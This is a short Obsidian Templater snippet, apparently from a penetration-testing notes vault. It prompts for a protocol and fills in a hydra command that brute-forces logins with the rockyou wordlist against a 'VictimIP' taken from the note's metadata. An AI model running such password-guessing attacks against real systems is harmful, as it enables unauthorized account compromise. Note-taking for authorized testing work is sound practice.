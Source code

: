 <%*
let Protocol = await tp.system.prompt("Enter the name of the protocol")
-%>

- We launch hydra against the protocol <% Protocol %>: 

```
hydra -l usuario -P /usr/share/wordlists/rockyou.txt <% Protocol %>://<% tp.frontmatter["VictimIP"] %>
```